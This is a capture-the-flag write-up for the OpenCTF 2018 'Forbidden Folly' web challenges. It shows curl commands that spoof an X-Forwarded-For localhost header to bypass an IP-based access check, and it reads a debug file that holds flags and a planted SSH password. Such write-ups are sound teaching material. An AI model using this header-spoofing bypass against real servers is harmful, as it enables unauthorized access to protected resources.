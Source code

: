 ```yaml
---
title: "OpenCTF 2018 - Forbidden Folly 1 & 2 Writeup"
slug: "openctf-2018-forbidden-folly-1-2-writeup"
date: "2018-08-14 22:40:45.421331"
author_name: "tecknicaltom"
author_email: "tecknicaltom@neg9.org"
draft: false
toc: false
images:
---
```


~~~~~~~~
Forbidden Folly 1 50 ---
Welcome to Hacker2, where uptime is a main prority: http://172.31.2.90

Forbidden Folly 2 50 ---
It seems like out of towners are terrible at scavenger hunts: http://172.31.2.91
~~~~~~~~

These challenges from OpenCTF 2018 at Defcon 26 were simple web challenges that took us way more time to solve than it should have.

Attempting to visit the page linked to in the hint only resulted in a 403 Forbidden response. Eventually an organizer alluded to the server caring about the origin of the request. This led us down the incorrect path of attempting to make the request with an `Origin` HTTP header.

Eventually though, we figured out that requesting the resource with an `X-Forwarded-For` HTTP header was the key:

~~~~~~~~
curl -v http://172.31.2.90/' -H 'X-Forwarded-For: 127.0.0.1'

~~~~~~~~

This returned an HTML page for the "HackerTwo System Status" page, and at the bottom of the source is the flag:

~~~~~~~~
<!-- flag(Th4t_WAS_To0_EASY} -->

~~~~~~~~

For the second challenge in the series, we first attempted to add other HTTP request headers that we thought the hint might be alluding to with "out of towners" such as `Accept-Language` but nothing seemed to affect the response.

The "HackerTwo System Status" page contained the following text:

> If at any point all systems stop responding you may want to check the system to verify everything is running properly. Tim placed a web terminal on the system for easy access, the location of that has been emailed to everyone who has access to this portal.

We thought this web terminal might be the key to finding the flag, so keeping the `X-Forwarded-For` header as before, we poked around a bit. Eventually after manually trying a few paths, we found `/debug` on the server returned a directory listing containing `secret.txt`, which contained the flag:

~~~~~~~~
curl -v 'http://172.31.2.91/debug/secret.txt' -H 'X-Forwarded-For: 127.0.0.1'
*   Trying 172.31.2.91...
* TCP_NODELAY set
* Connected to 172.31.2.91 (172.31.2.91) port 80 (#0)
> GET /debug/secret.txt HTTP/1.1
> Host: 172.31.2.91
> X-Forwarded-For: 127.0.0.1
>
< HTTP/1.1 200 OK
< Date: Sat, 11 Aug 2018 23:00:38 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Last-Modified: Tue, 24 Jul 2018 06:38:04 GMT
< ETag: "ea-571b901137e84"
< Accept-Ranges: bytes
< Content-Length: 234
< Vary: Accept-Encoding
< Content-Type: text/plain
<
Chad,

I've created an account for you here on the system. You can log into ssh with the user chad and the password FriendOfFolly^.
Please delete this message after you've read it.

PS: flag{Th3_nexT_0ne_iS_D1ff1cul7}

Thanks,
Grace
~~~~~~~~

